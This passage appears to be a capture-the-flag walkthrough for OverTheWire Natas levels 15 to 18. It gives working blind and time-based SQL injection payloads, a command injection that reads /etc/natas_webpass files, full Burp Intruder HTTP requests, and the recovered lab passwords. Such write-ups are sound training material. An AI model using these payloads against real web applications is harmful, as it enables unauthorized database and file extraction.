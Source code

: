 ```html

username="+union+select+1,2+from+users+where+md5(substring((select+password+from+users+where+username='natas16'),33,1))=md5('§W§')--+-
```

natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

### lvl 16-17

```html
# in burp intruder
GET /?needle=hellos$(grep+^8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw§a§+/etc/natas_webpass/natas17)&submit=Search HTTP/1.1
Host: natas16.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/json,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas16.natas.labs.overthewire.org/?needle=dsad&submit=Search
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Cookie: __utmc=176859643; __utma=176859643.472868426.1590939308.1591176859.1593693887.3; __utmz=176859643.1593693887.3.2.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided)
Connection: close
```

natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

### lvl 17-18

as there is no error shown we do time based sql injection

payload

username="union select 1,2 from users order by (case when (md5(substring((select password from users where username='natas18'),33,1))=md5('§A§')) then sleep(5) else 1/0 end)--+-

```html
POST /index.php?debug=1 HTTP/1.1
Host: natas17.natas.labs.overthewire.org
Content-Length: 174
Cache-Control: max-age=0
Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==
Upgrade-Insecure-Requests: 1
Origin: http://natas17.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas17.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Cookie: __utmc=176859643; __utma=176859643.472868426.1590939308.1591176859.1593693887.3; __utmz=176859643.1593693887.3.2.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided)
Connection: close

username="union select 1,2 from users order by (case when (md5(substring((select password from users where username='natas18'),33,1))=md5('§A§')) then sleep(5) else 1/0 end)--+-
```
